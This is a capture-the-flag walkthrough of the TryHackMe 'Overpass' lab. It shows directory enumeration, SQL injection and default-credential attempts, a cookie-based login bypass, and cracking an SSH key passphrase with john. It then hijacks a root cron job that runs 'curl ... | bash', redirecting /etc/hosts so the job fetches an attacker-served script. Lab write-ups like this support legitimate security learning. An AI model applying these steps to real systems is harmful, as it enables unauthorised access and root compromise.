


## Overpass
At the very beginning of this TryHackMe [room](https://tryhackme.com/room/overpass), I must say that this room is rated as easy and is actually very easy but if you are a beginner then it is going to make you scratch your head!!!

All we know about this box is that it is related to some sort of password manager. So, let's begin and break it!!!

### Initial Foothold
There are only two questions for this box and both are related to the user and root flag, which hints towards trying to get into the machine on which the website is hosted and access both the user and root flags.

On accessing the machine IP, i.e. `http://<machine_ip>`, we land up on their homepage which looks something like: 


On this page, we can see two important links, which are `About Us` and `Downloads`. On the About Us page, we can't see anything that we can use to gain the foothold. Even on the Downloads page, all we can see are different executables available to download for various operating systems. So, nothing of that relevance over here as well.

To determine some hidden directories or pages, we can run `dirb`. The results from `dirb` would look like: 

```
tester@kali:/$ dirb http://10.10.129.106

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sun Jul 19 19:30:40 2020
URL_BASE: http://10.10.129.106/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.129.106/ ----
==> DIRECTORY: http://10.10.129.106/aboutus/                                   
+ http://10.10.129.106/admin (CODE:301|SIZE:42)                                
==> DIRECTORY: http://10.10.129.106/css/                                       
==> DIRECTORY: http://10.10.129.106/downloads/                                 
==> DIRECTORY: http://10.10.129.106/img/                                       
+ http://10.10.129.106/index.html (CODE:301|SIZE:0)                            
                                                                               
---- Entering directory: http://10.10.129.106/aboutus/ ----
+ http://10.10.129.106/aboutus/index.html (CODE:301|SIZE:0)                    
                                                                               
---- Entering directory: http://10.10.129.106/css/ ----
+ http://10.10.129.106/css/index.html (CODE:301|SIZE:0)                        
                                                                               
---- Entering directory: http://10.10.129.106/downloads/ ----
+ http://10.10.129.106/downloads/index.html (CODE:301|SIZE:0)                  
+ http://10.10.129.106/downloads/src (CODE:301|SIZE:0)                         
                                                                               
---- Entering directory: http://10.10.129.106/img/ ----
+ http://10.10.129.106/img/index.html (CODE:301|SIZE:0)                        
                                                                               
-----------------
END_TIME: Sun Jul 19 20:27:54 2020
DOWNLOADED: 23060 - FOUND: 7

```

From these results, we can see there is one interesting page and that is `/admin`. This page has nothing but 2 fields to enter username and password.



The first thing that we can think of when we see a login page would definitely be default credentials and SQL Injection and we can try some basic attacks like:

```
| Username | Password |
|----------|----------|
| admin    | admin    |
| root     | toor     |
| admin    | Password |
| admin    | Password1|
| ' or 1 =1 -- | random |
```

Sadly, none of these worked. Another approach could be bruteforcing the password. So, I tried that using Burp Intruder along with the 'fasttrack.txt' wordlist but did not get any result. 

From the hint provided for question 1, we can think of some vulnerability that is a part of OWASP Top 10. And to check that we can inspect the webpage and also check all the client-side JS files.

In the HTML document, we can't see anything interesting but under the debugger tab, we can see there are two JS files which are `cookie.js` and `login.js`. From the naming of these two files, we can say that 'cookie.js' would be initializing the cookies whereas 'login.js' would be processing the login. We can take a look at both of these files, so let's begin with 'login.js'. The code is given below:


There are three function in this file namely postData(), onLoad() and login(). The next thing that we can do is try to understand the flow of data through these functions. 

1. The login() function takes up three values which are username, password and loginStatus. The values username and password are combined to a variable `creds`.
2. This variable 'creds' along with the path `/apt/login` are sent to the function postData() and the returned value is stored in a variable `response`.
3. Then it takes the text from the response variable using `response.text()` and assigns it to variable `statusOrCookies`.
4. Now the value stored in 'statusOrCookies' is compared with the string 'Incorrect Credentials' and if the condition matches then the value 'Incorrect Credentials' is assigned to 'loginStatus' and passwordBox is made empty.
5. This is the most important part, in the `else` part it can be seen that the value in 'statusOrCookies' is assigned as the cookie value but the catch here is the value of this cookie is not validated. 

So, we can set the cookie value to anything other than the string 'Incorrect Credentials' and get the access without the need of any username or password as our cookie value won't get verified at any point. We can set the cookie value by going to the console tab and entering:
```
Cookies.set("SessionToken", 'myCookieValue')
```


Once we refresh the page, the new cookie values would get used and we can access the `Overpass Administrator area`.



From this page, we can copy this RSA private key for the user named 'james' and use it further to gain SSH access to the box. But the issue here is that we can't use this RSA private key directly to gain access. Also, it is written in the 'Administrator area' that we need to crack the passphrase associated with this file. To do so, `johntheripper` can be used but again it can't directly extract the passphrase. We first need to convert it to a form that john can understand and for that, we can use `ssh2john.py`.
```
tester@kali:~/Downloads$ python /usr/share/john/ssh2john.py james_rsa > crack
```

Now, this crack file can be used with `john` to obtain the passphrase.
```
tester@kali:~/Downloads$ john --wordlist=/usr/share/wordlists/rockyou.txt crack
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
XXXXXXX          (james)
1g 0:00:00:04 DONE (2020-07-19 20:44) 0.2433g/s 3489Kp/s 3489Kc/s 3489KC/sa6_123..*7¡Vamos!
Session completed
```
And we get the passphrase for user 'james'. We can now use the RSA private key along with this passphrase to get SSH access to the box:

```
tester@kali:~/Downloads$ ssh -i james_rsa james@10.10.129.106
The authenticity of host '10.10.129.106 (10.10.129.106)' can't be established.
ECDSA key fingerprint is SHA256:4P0PNh/u8bKjshfc6DBYwWnjk1Txh5laY/WbVPrCUdY.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.129.106' (ECDSA) to the list of known hosts.
Enter passphrase for key 'james_rsa': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-108-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Jul 19 15:19:04 UTC 2020

  System load:  0.0                Processes:           89
  Usage of /:   22.9% of 18.57GB   Users logged in:     0
  Memory usage: 12%                IP address for eth0: 10.10.129.106
  Swap usage:   0%


47 packages can be updated.
0 updates are security updates.


Last login: Sat Jun 27 04:45:40 2020 from 192.168.170.1
james@overpass-prod:~$ 
```

So, we get access to the box as user 'james' and int the current directory itself we can find the file `user.txt` containing the flag for the first question.

With this the part of initial foothold completes and now we need to perform Privilege Escalation to obtain the root flag.

### Privilege Escalation
The next task is to gain root privilege so that we can access the root.txt. We can try to roam around a little bit and check access to different filers folders like /root, 
/etc/passwd, /etc/shadow and others. Usually the command `sudo -l` provides a list of commands that the current user can run with root privileges but that command does not work in our case as we don't know the password to the user's account.

Now, one most important thing that I learned from this challenge was using tools like `linPEAS` to learn different ways through which we can perform privilege escalation on a system. But first, we need to get linPEAS on the box. 

You can clone linPEAS from [here](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite). Now, we need to send it on the box and for that, we can set up a `python server` and use `wget` on the box to get the file.


Now, we can run linpeas but first, we need to make it executable by changing its permissions using the command `chod +x linpeas.sh`.

In my case, I was not able to get the entire output of `./linpeas.sh`, so I ran `./linpeas.sh -o ProCronSrvcsTmrsSocks` to check the various process, cron jobs, sockets and timers on the system. There are many other options available which can be used and we can check them by `./linpeas.sh -h`.

In the huge result generated by linpeas, we can see one odd cron job:
```SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

What is happening over here is that continuously the cron is curling this file named `buildscript.sh` from `overpass.thm` and sending the results to bash that too as ROOT!

This appears to be a solution to get commands executed as root. First, we can go and check what the buildscript.sh actually is. From the path itself, we can determine that is available on the password manager's website in the downloads directory. This file consists of:
```
GOOS=linux /usr/local/go/bin/go build -o ~/builds/overpassLinux ~/src/overpass.go
GOOS=windows /usr/local/go/bin/go build -o ~/builds/overpassWindows.exe ~/src/overpass.go
GOOS=darwin /usr/local/go/bin/go build -o ~/builds/overpassMacOS ~/src/overpass.go
GOOS=freebsd /usr/local/go/bin/go build -o ~/builds/overpassFreeBSD ~/src/overpass.go
GOOS=openbsd /usr/local/go/bin/go build -o ~/builds/overpassOpenBSD ~/src/overpass.go
echo "$(date -R) Builds completed" >> /root/buildStatus
```

From this, we can see that on a Linux system this command is compiling overpassLinux using goLang. But this information is not of much use to us. Going back to the cron job, we know that the box is not connected to the internet. So, a question may arise 'Then how is it able to curl overpass.thm'. And for any such resolution we must immediately check the `/etc/hosts` file which would look like:
```
james@overpass-prod:/tmp$ cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 overpass-prod
127.0.0.1 overpass.thm
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

So, overpass.thm gets resolved to 127.0.0.1. We can modify this resolution IP to some other address that we can control and then pass some other `buildscript.sh` containing our malicious command. We can change this IP to our local machine's IP address using the command `nano /etc/hosts` like:
```
<my_IP> overpass.thm
```

But this is not the solution, in the cron job we can see that there is a path also that is associated with the curl request. So, we need to make a similar directory on our system and store the 'buildscript.sh' in the newly-created directory.
```
tester@kali:~/Desktop$ mkdir -p downloads/src
tester@kali:~/Desktop$ cd downloads/src/
tester@kali:~/Desktop/downloads/src$ touch buildscript.sh
```
P.S. Note that I have created this directory in Desktop, but can be created anywhere.

We can write the command that we want to execute in the newly created 'buildscript.sh'
using `nano` and save it. As this is on our local system, we can even use gedit or any other editor of our choice.
```
tester@kali:~/Desktop/downloads/src$ nano buildscript.sh 
#!/bin/bash

cat /root/root.txt > /tmp/flag
```

The command stored in the 'buildscript.sh' performs the task of writing the data `/root/root.txt` to a file `/tmp/flag` on the box itself. So, we need to create a file named 'flag' in the '/tmp' folder on the box and also change it's permission so that anyone can write to that file.
```
james@overpass-prod:/tmp$ touch flag
james@overpass-prod:/tmp$ chmod 777 flag
```
Now, all that we need to do is start a server on our local machine and rest all would be taken care of by the `cron`. Make sure to start the server in the parent directory of the newly created 'downloads' folder which in my case was the 'Desktop' folder.

Once the server is started, wait for some time so that cron generates a request to get the 'buildscript.sh file'. As soon as it generates a request, it would get reflected on our local system:
```
tester@kali:~/Desktop$ sudo python3 -m http.server 80
[sudo] password for tester: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.129.106 - - [19/Jul/2020 22:19:03] "GET /downloads/src/buildscript.sh HTTP/1.1" 200 -
10.10.129.106 - - [19/Jul/2020 22:20:04] "GET /downloads/src/buildscript.sh HTTP/1.1" 200 -
10.10.129.106 - - [19/Jul/2020 22:21:04] "GET /downloads/src/buildscript.sh HTTP/1.1" 200 -
```

As the status code is also 200, we can be assured that the request was completed successfully. We can now got the box and check the file `/tmp/flag` and find our flag over there.

With this, we solved the box `OVERPASS`.

### Some Points To Learn
1. Always pay attention to the functions that are processing data (the login() function).
2. Try to use linPEAS and other such tools for Privilege Escalation enumeration.
 